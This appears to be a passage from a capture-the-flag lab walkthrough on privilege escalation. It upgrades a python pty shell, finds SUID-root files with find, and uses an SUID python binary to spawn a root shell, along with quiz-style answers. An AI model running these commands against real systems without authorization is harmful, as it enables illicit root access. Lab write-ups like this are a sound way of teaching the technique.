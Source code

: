 <img src="https://i.imgur.com/JdtMyJr.png">

<br><big> * Let's upgrade **shell** </big>

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

# `Privilege escalation`

<big> **Now that we have a shell, let's escalate our privileges to root.** </big>

<br><big> * Let's use **find** command to find **files** with **SUID permission** <big>

```
find / -user root -perm /4000
```

<img src="https://i.imgur.com/mwhvp9F.png">

<big> Search for files with SUID permission, which file is weird? </big>
<br><p2> Answer: **/usr/bin/python** </p2> 

<big> Find a form to escalate your privileges. </big>
<br><p2> Answer: <a href="https://gtfobins.github.io/">gtfobins</a>

<br><big> * Make sure to use **cd /usr/bin** before **python** and dont forgot **./** </big> 

```
 cd /usr/bin
./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<br><img src="https://i.imgur.com/wxnJ3LH.png">

<big> * And we have a **root** :) </big>

<big> Amar#0484 </big>




## [Back to main page](./../..)
